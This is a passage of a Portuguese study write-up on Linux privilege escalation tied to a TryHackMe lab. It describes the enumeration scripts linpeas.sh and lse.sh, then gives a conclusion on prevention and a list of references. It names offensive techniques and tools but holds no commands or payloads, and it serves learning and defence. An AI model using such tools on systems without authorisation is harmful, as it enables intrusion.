   O objetivo principal do *linpeas.sh* é automatizar a auditoria de segurança em sistemas Linux, tornando o processo mais rápido e eficiente. Ele pode ser útil para administradores de sistema e profissionais de segurança que desejam verificar a segurança de seus sistemas ou para testadores de penetração que desejam avaliar a segurança de um sistema alvo.

   É importante lembrar que o uso do *linpeas.sh* em um sistema sem permissão explícita é considerado uma atividade ilegal e pode resultar em sérias consequências legais. Além disso, o *linpeas.sh* não é uma solução completa para a segurança do sistema e deve ser usado em conjunto com outras ferramentas e práticas recomendadas de segurança.

3. **lse.sh:**
   
   *LSE.sh* foi projetado para ajudar na coleta de informações sobre um sistema e identificar possíveis vulnerabilidades de segurança. O script é executado como um usuário comum e tenta enumerar informações sobre o sistema, como serviços em execução, versões de software, permissões de arquivos, usuários e grupos, etc.

   O *LSE.sh* inclui módulos adicionais que podem ser usados para identificar vulnerabilidades específicas, como a presença de arquivos SUID, arquivos e diretórios com permissões inadequadas, configurações de firewall, entre outros. Ele também pode ser usado para identificar possíveis backdoors e malware no sistema.

   O objetivo principal do *LSE.sh* é automatizar a auditoria de segurança em sistemas Linux, tornando o processo mais rápido e eficiente. Ele pode ser útil para administradores de sistema e profissionais de segurança que desejam verificar a segurança de seus sistemas ou para testadores de penetração que desejam avaliar a segurança de um sistema alvo.

   É importante lembrar que o uso do *LSE.sh* em um sistema sem permissão explícita é considerado uma atividade ilegal e pode resultar em sérias consequências legais. Além disso, o *LSE.sh* não é uma solução completa para a segurança do sistema e deve ser usado em conjunto com outras ferramentas e práticas recomendadas de segurança.

---



---

## **<a id="22">• Dificuldades.</a>**

*Nenhuma dificuldade relevante. =}* 

---

## **<a id="23">• Conclusão.</a>**

Em conclusão, a elevação de privilégios em sistemas Linux é um processo de aumento de permissões de um usuário ou processo para acessar recursos que normalmente exigem níveis mais altos de permissões. Embora seja essencial para a execução de algumas tarefas, a elevação de privilégios também pode representar um risco de segurança se for explorada de forma inadequada.

Existem várias formas de elevar os privilégios em sistemas Linux, incluindo a exploração de vulnerabilidades de segurança, o uso de técnicas de engenharia social, a exploração de permissões inadequadas em arquivos ou diretórios, o uso de exploits de kernel e o uso de ferramentas especializadas de hacking.

Para evitar a elevação de privilégios não autorizada, é fundamental implementar medidas de segurança adequadas, como manter o sistema atualizado com as últimas correções de segurança, limitar o acesso aos recursos do sistema somente a usuários com as permissões adequadas e usar soluções de segurança, como firewalls e antivírus.

Em suma, a elevação de privilégios em sistemas Linux é uma questão de segurança crítica que requer atenção constante e medidas preventivas para proteger o sistema contra ameaças internas e externas.

---

## **<a id="24">• Referências.</a>**

- [SUID Executables](https://pentestlab.blog/2017/09/25/suid-executables/)
  
- [GTFOBins](https://gtfobins.github.io)

- [Privilege Escalation on Linux](https://delinea.com/blog/linux-privilege-escalation)

- [ChatGPT](https://chat.openai.com/chat)

---

## **<a id="25">• Laboratório.</a>**

  - [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)


